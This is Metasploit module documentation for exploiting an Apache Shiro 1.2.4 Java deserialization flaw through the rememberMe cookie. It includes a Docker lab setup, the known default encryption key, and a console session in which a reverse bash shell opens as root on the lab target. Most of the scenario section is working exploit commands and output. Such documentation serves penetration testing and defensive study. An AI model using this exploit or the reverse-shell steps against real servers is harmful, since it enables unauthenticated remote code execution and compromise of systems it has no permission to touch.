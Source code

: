 ## Vulnerable Application

### Description

Apache Shiro v1.2.4 is vulnerable to a Java deserialization vulnerability. An
unauthenticated user can submit a YSoSerial payload to the Apache Shiro web
server as the value to the `rememberMe` cookie. This will result in code
execution in the context of the web server.

The YSoSerial `CommonsCollections2` payload is known to work and is the one
leveraged by this module.

Note that other versions of Apache Shiro may also be exploitable if the
encryption key used by Shiro to encrypt `rememberMe` cookies is known.

### Setup

You can use <https://github.com/Medicean/VulApps/tree/master/s/shiro/1>.

1. Pull the docker image
    * `docker pull medicean/vulapps:s_shiro_1`
2. Run the docker image, binding to port 8080
    * `docker run --rm -p 8080:8080 medicean/vulapps:s_shiro_1`

## Verification Steps

1. `use exploit/multi/http/shiro_rememberme_v124_deserialize`
2. `set rhosts <rhost>`
3. `run`

## Options
**ENC_KEY**
The encryption key the target Apache Shiro server is using to encrypt its `rememberMe` cookies.

## Scenarios

### Tested on GNU/Linux x86_64 using Shiro-1.2.4

```
msf > use exploit/multi/http/shiro_rememberme_v124_deserialize
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(multi/http/shiro_rememberme_v124_deserialize) > show options

Module options (exploit/multi/http/shiro_rememberme_v124_deserialize):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   ENC_KEY    kPH+bIxk5D2deZiIxcaaaA==  yes       Shiro encryption key
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       Base directory path
   VHOST                                no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command payload


msf exploit(multi/http/shiro_rememberme_v124_deserialize) > set RHOSTS 172.18.0.2
RHOSTS => 172.18.0.2
msf exploit(multi/http/shiro_rememberme_v124_deserialize) > set LHOST 172.18.0.1
LHOST => 172.18.0.1
msf exploit(multi/http/shiro_rememberme_v124_deserialize) > run

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Command shell session 1 opened (172.18.0.1:4444 -> 172.18.0.2:60632) at 2020-12-21 17:09:27 -0600

whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```
